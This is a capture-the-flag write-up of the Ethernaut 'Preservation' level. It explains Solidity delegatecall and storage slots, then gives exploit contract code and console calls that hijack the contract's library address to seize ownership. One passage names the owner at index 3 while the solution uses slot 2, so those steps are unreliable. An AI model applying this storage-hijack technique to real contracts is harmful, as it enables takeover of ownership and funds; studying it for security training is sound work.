


# Day 16 - Preservation

## deletagecall (day 6)

- If Contract A makes a delegatecall to Contract B, it allows Contract B to freely mutate its storage A, given Contract B’s relative storage reference pointers.

**Hint**: if Contract A invokes Contract B, and you can control Contract B, you can easily mutate the state of Contract A.



## storage (day 12)



- Ethereum allots 32-byte sized storage slots to store state. Slots start at index 0 and sequentially go up to **2²⁵⁶** slots.

- Basic datatypes are laid out contiguously in storage starting from position 0, then 1, until 2²⁵⁶-1.

- If the combined size of sequentially declared data is less than 32 bytes, then the sequential data points are packed into a single storage slot to optimize space and gas.

**Hint**: If you can match up storage data locations between Contract A and Contract B, you can precisely manipulate the desired variables in Contract A.

The `LibraryContract` is trying to modify the variable at index 0 but on the calling contract, index 0 is the address of timeZone1Library. So first you need to call `setTime()` to replace timeZone1Library with a malicious contract. In this malicious contract, setTime() which will modify index 3 which on the calling contract is the owner variable!

Deploy the malicious library contract
Convert the address into uint.
Call either setFirstTime() or setSecondTime() with the uint value of (2).
Now that the address of timeZone1Library has been modified to the malicious contract, call setFirstTime() with the uint value of your player address.

## Solution

- Notice that `Preservation.sol` stores owner address at slot 2. Create a malicious contract that has the same storage layout

- Create a setTime function inside BadContract which updates slot 2 with your wallet address.

- Deploy BadLibraryContract to Ropsten in Remix, and save its instance address. Then, calculate the `uint(address)` to derive the input variable

In my case, my malicious contract address is `0x110139f3822dd6Ac959DB2d8DeEd834C93093dd4` and uint256(0x110139f3822dd6Ac959DB2d8DeEd834C93093dd4) is `97080192111154721577086637833709371438884535764`

my player address is `0xf96cA963Fb2bE5c4eAF47C22c36cF2Fa26231e7f` while the uint256 value is `1423961938414718297468094872586360665605931212415`

**Note**: it is important to use the same function name setTime in the malicious contract as in LibraryContract because Preservation.sol invokes functions by name:

```js
pragma solidity ^0.6.0;

contract LibraryContract {

  // stores a timestamp
  address doesNotMatterWhatThisIsOne; // slot 0
  address doesNotMatterWhatThisIsTwo; // slot 1
  address maliciousIndex; // slot 2

  function setTime(uint _time) public {
    maliciousIndex = address(_time);
  }
}

// first time call to set the timeZone1Library address to our malicious contract address
await contract.setFirstTime("<insert uint value of your malicious library contract>")

// second time call so that timeZone1Library.delegatecall will trigger our malicious setTime function and set the owner to ourselves
await contract.setFirstTime("<insert uint value of your player>")

```
